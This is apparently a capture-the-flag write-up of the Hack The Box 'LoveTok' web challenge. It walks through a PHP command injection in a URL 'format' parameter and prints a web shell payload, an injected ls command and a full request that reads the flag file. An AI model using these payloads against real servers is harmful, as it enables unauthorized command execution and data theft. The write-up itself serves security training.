





> **[LoveTok](https://app.hackthebox.com/challenges/lovetok)** is an easy web exploitation challenge which makes use web shells to extract sensitive data from a web server.

## Walkthrough
The LoveTok website.


The website does not have much information besides a button at the bottom of the page. Upon clicking the button, I noticed that the URL changed. 
```shell
http://94.237.62.195:37632/?format=r
```


I messed around with the r section of the URL and changed it to different system commands and the text at the bottom of the page kept on changing depending on the command used. 


I then proceeded to look at the downloaded files that came with the challenge and found an intersesting code in the Router.php file. The code shows a basic routing mechanism for a PHP application, allowing developers to define routes and corresponding controller functions or methods to handle incoming requests.

A specific section of the code stood out to me.


This section handles a scenario where a segment in the route pattern is a placeholder {param}, indicating that a parameter value is expected in that segment of the URL. If the current segment in the URL is an empty string then it aborts the script execution with an HTTP status code of 404 (Not Found).

From then, I used a web shell to bypass the conditional check in the router code and exploit the command injection vulnerability to execute arbitrary commands on the server, ultimately allowing me to extract sensitive data.

I found the following web shell payload:
```shell
<?php system($_GET['cmd']);?>
```
It uses the system() function to execute commands that are being passed through ‘cmd’ HTTP request GET parameter.

I adjusted the payload to list all files and directories in the root directory of the web server. 
```shell
 ${system($_GET[cmd])}&cmd=ls /
```

I found a flag file and changed the system commands on the payload to open the file.

```shell
http://94.237.62.195:37632/?format=%20${system($_GET[cmd])}&cmd=cat%20/flagPmIxD
```
And Voila! I got the flag!


